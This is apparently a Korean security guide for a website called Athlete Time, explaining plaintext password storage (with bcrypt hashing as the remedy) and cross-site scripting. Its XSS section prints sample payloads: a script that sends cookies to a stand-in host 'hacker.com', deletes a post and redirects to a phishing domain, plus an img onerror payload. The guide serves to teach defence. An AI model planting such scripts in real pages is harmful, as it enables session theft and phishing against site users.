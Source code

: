 # 🔒 애슬리트 타임 보안 가이드

## 🚨 현재 보안 취약점 상세 설명

### 1. 🔓 비밀번호 평문 저장 문제

#### 왜 위험한가?
```javascript
// 현재 상황 - 데이터베이스에 이렇게 저장됨
{
  id: 1,
  title: "게시글",
  password: "mypassword123"  // 😱 누구나 읽을 수 있는 평문!
}
```

**실제 위험 시나리오:**
1. **데이터베이스 유출 시**: 해커가 DB에 접근하면 모든 비밀번호를 즉시 사용 가능
2. **내부자 위협**: DB 관리자나 개발자가 사용자 비밀번호를 볼 수 있음
3. **백업 파일 노출**: 백업 파일이 유출되면 과거 모든 비밀번호 노출
4. **법적 책임**: 개인정보보호법 위반으로 과징금 부과 가능

#### bcrypt 해싱 솔루션
```javascript
// 평문: "mypassword123"
// bcrypt 해시: "$2b$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGt8WJG/ttP4mhSL6i"
// 
// 특징:
// - 같은 비밀번호도 매번 다른 해시 생성 (salt 덕분)
// - 역변환 불가능 (단방향 암호화)
// - 검증은 가능하지만 원문 복구는 불가능
```

### 2. 💉 XSS (Cross-Site Scripting) 공격

#### 왜 위험한가?
사용자가 입력한 악성 스크립트가 다른 사용자 브라우저에서 실행됨

**실제 공격 예시:**
```javascript
// 해커가 게시글 제목에 이렇게 입력하면:
<script>
  // 1. 쿠키 훔치기
  fetch('https://hacker.com/steal?cookie=' + document.cookie);
  
  // 2. 사용자 대신 게시글 삭제
  fetch('/api/posts/1', { method: 'DELETE' });
  
  // 3. 피싱 사이트로 리다이렉트
  window.location = 'https://fake-athletetime.com';
</script>

// 또는 이미지 태그 악용:
<img src="x" onerror="alert('해킹당함!')">
```
